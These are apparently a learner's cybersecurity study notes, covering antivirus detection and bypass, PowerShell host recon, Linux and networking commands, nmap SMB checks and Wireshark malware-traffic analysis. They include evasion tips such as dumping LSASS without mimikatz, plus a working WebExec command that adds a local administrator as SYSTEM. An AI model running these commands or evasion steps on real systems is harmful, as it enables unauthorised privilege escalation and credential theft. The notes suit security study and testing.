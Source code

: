 ----
-typical: static detections; hooking runtime API calls; dynamic detection (fewer signatures)
-what about "next-gen" AV using ML or AI.  AI is only as smart as it needs to be (finding bad strings)
-Antimalware Scan Interface (AMSI) allows AV vendors to "see" powershell, javascript, vbscript, office macros and a few others after de-obfuscation and before execution but not all AV vendors support AMSI
-AV company should support AMSI see https://github.com/subat0mik/whoamsi
-AV isn't tracking everything, for performance reasons
-Malware Detection Systems (MDS) uses a technique called emulation.  Emulation doesn't rely on static structure or a signature of malware but executes the file in an artifical environment that emulates a real OS.  The analysis of this to determine if the file is benign or malicious.
-Methods of bypass: use non-malicious software in malicious ways.  Use psexec.exe vice metasploit psexec; Dump LSASS memory other than using mimikatz.exe; save registry hives and extract hashes elsewhere rather than using hashdump
-various methods for bypassing AV ie. Making the fight unfair
-testing methodology: install AV with updated signatures, take a VM snapshot, disconnect network, introduce malware, if discovered then modify and repeat, finally revert snapshot
-Application Control: AV has a literally impossible job stopping malicious software.  Instead focus on application control only allowing known good SW BUT only allowing signed MS binaries isn't 100% effective.  Some signed binaries allow arbitrary code execution direction aka LOLBINS or Living Off he Land Binaries
-Better approach for AV: rely on detection and rapid response with alerts at SOC to determine root cause analysis
-Endpoint Detection & Response (EDR)
REF: McJunkin, J.  (2020).  Bypassing Antivirus.  Rogue Infosec.  Retrieved from https://docs.google.com/presentation/d/1Fdcbv9U1qywIZSl2AhXJAlx61pyEITKfcbbwpJMvkcQ/edit#slide=id.p

--download: https://github.com/dafthack/HostRecon
--start powershell: powershell.exe -exec bypass
--import the script: PS C:&gt;Import-Module HostRecon.ps1
--run hostrecon: PS C:&gt;Invoke-HostRecon
--perform egress filter check on top 100 ports: PS C:&gt;Invoke-HostRecon -Portscan -TopPorts 100
------
-nmap -oN ?
-debsums //Debian and derived such as Ubuntu and Mint have built-in tool that compares installed
package components to their original has files maybe /usr/lib/libreoffice/share/gallery/www-
back/chocolate.jpg
-sha1sum &lt;file&gt; //calculates the SHA1 hash of the file
-gnome-open //opens a fileCyber
-REGEX: \d any digit; \D any non-digit char; | or; . any character; * 0 or more repetitions; \s any
whitespace; \S any Non-whitespace; + one or more repititions; [A-Za-z\s] Characters A-Z &amp; a-z then
whitespace; [\D]+\d{1,2}[a-z]+ one or more non-digits then one or two digits then lowercase letters and
spaces;
-grep &#39;teavee&#39; /etc/group //to see which user is in group teavee
-echo $SHELL //to see shell and the path to it
-gobuster (similar to dirb?)
-find | grep flag //looking for flag
-linpeas.sh //sh to get info? move into server and run
-ls -l|lolcat //colorful output of ls –l
-ls -l&gt; /tmp/listing.txt //write your directory listing to a file in /tmp/
-tail //bash: reads the last 10 lines of the file
-type //bash: find out if command is builtin or external binary file
-tee //bash: reads standard input and writes it to both standard output and one or more files
-top //bash: process viewer to find CPU intensive programs currently running
-file //tell you what a given object looks like
------
Checksum using Powershell
-Get-FileHash &lt;path to file/file&gt; | Format-List //default is SHA256
-Get-FileHash &lt;path to file/file&gt; -Algorithm SHA1 | Format-List //differing algorithms
------
Host IP address shows:
--192.168.56.1 as VirtualBox Host-Only Network maybe use as gateway for below
--192.168.56.5 for BlackArch
setting up network adapter
--ifconfig -a //note ifconfig is the old way on ubuntu new is using &quot;ip&quot;
--ifconfig enp0s3 192.168.100.5 //ifconfig &lt;adapter name&gt; &lt;valid internal IP address&gt;
--ip route add 0/0 via 192.168.100.1 dev enp0s3 //routing via the gateway
--add &quot;nameserver 8.8.8.8&quot; to /etc/resolv.conf
--ip addr show
--ip link set enp0s3 up
--ip route show
DHCP used commonly in VirtualBox? checking BUT Parrot doesn&#39;t use it. Changed VM to NAT and ran:
--dhcpcd enp0s3 //started dhcp on this interface and obtained IP
-----
-WebExService -&gt; any* user can start or stop it via SMB and trick it into running any other command as
SYSTEM!
*Except Windows 10, where you need admin
-C:\&gt; sc \\10.0.0.0 start webexservice a software-update 1 net localgroup administrators testuser /add

webexec.org
-----------
IOActive (Pronounced I Active?) ID risks in SATCOM
Look for design issues, backdoors, HW embedded passwords and not just buffer overflow of code
----------
Google hacks
-site:&lt;urdomain&gt; and keep minimizing from what returns until you see that you&#39;re in interesting areas
(like /index)
--------------
-checking form SMB signing:
--first you want to run nmap scripts related to SMB so do a search for this with the following command: ls usrshare/nmap/scripts/ | grep smb
--well see a list of scripts which we can run on nmap: nmap -sU -sT -p U:137, T:139, 445 –script=smb2-security-mode.nse 10.10.98.0/24
----------
-NAT-Networked on VirtualBox
File-→Preferences → Network
Select NAT Networks tab the create new “NatNetwork” by clicking the + button 
Select each VM Settings → Network
In Attached to: choose NAT Network and select “NatNetwork”
Restart each VM
----------
Wireshark - Malware traffic analysis
-Statistics -> Protocol Hierarchy //to see the summary of protocals being used
-TCP application level
-In second/middle window, you can right click something such as src or dst host and add as column.
-File Export objects for http. Sort contents, look for application/xxx for malware.
-Hash the potential exploit .jar; .swf; .exe and upload to virus total.

Wireshark Tutorial for Beginners by Anson Alexander
-RST means stop talking to me
-If data goes out then take a look at that port to see what is being sent out.
-sudo lsof -i:443
-view: coloring rules to see or change colors 
https://www.attplans.com/resources/difference-mbps-and-mbps/ 
----------
nse scripts (HackerSploit Youtube)
-lua scripting language
-located in .../nmap/scripts
-*.nse
----------
temp fix for hyper-v issue:
bcdedit /set hypervisorlaunchtype off //to use vmware & virtualbox
bcdedit /set hypervisorlaunchtype auto //to use hyper-v


